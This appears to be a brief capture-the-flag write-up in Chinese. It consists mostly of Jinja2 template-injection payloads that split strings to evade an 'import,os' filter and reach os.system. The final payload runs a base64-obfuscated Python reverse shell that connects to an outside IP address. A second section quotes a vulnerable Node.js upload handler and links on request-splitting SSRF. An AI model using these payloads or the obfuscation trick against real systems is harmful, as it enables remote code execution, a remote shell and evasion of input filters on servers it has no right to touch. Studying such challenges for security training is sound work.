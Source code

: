 
`{{1+1}}`

过滤`import,os`

```
{{''|attr('_'+'_class_'+'_')|attr('_'+'_ba'+'se_'+'_')}}
{{''|attr('_'+'_class_'+'_')|attr('_'+'_ba'+'se_'+'_')|attr('__subcl'+'asses__')()}}
{{''|attr('_'+'_class_'+'_')|attr('_'+'_ba'+'se_'+'_')|attr('__subcl'+'asses__')()|attr('__dict__')}}
{{config.__class__.__mro__[1].__subclasses__()[-2].__init__.__globals__['o'+'s'].__dict__['sys'+'tem']('echo aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zCnM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pCnMuY29ubmVjdCgoIjM5LjEwOC4xNjQuMjE5Iiw2MDAwMykpCm9zLmR1cDIocy5maWxlbm8oKSwwKQpvcy5kdXAyKHMuZmlsZW5vKCksMSkKb3MuZHVwMihzLmZpbGVubygpLDIpCnA9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0p|base'+'64 -d | python')}}
```



### node_game

 https://github.com/nodejs/node/issues/13296 

 https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/ 

这题有个upload函数

```javascript
app.post('/file_upload', function(req, res){
    var ip = req.connection.remoteAddress;
    var obj = {
        msg: '',
    }
    if (!ip.includes('127.0.0.1')) {
        obj.msg="only admin's ip can use it"
        res.send(JSON.stringify(obj));
        return 
    }
    fs.readFile(req.files[0].path, function(err, data){
        if(err){
            obj.msg = 'upload failed';
            res.send(JSON.stringify(obj));
        }else{
            var file_path = '/uploads/' + req.files[0].mimetype +"/";
            var file_name = req.files[0].originalname
            var dir_file = __dirname + file_path + file_name
            if(!fs.existsSync(__dirname + file_path)){
                try {
                    fs.mkdirSync(__dirname + file_path)
                } catch (error) {
                    obj.msg = "file type error";
                    res.send(JSON.stringify(obj));
                    return
                }
            }
            try {
                fs.writeFileSync(dir_file,data)
                obj = {
                    msg: 'upload success',
                    filename: file_path + file_name
                } 
            } catch (error) {
                obj.msg = 'upload failed';
            }
            res.send(JSON.stringify(obj));    
        }
    })
})
```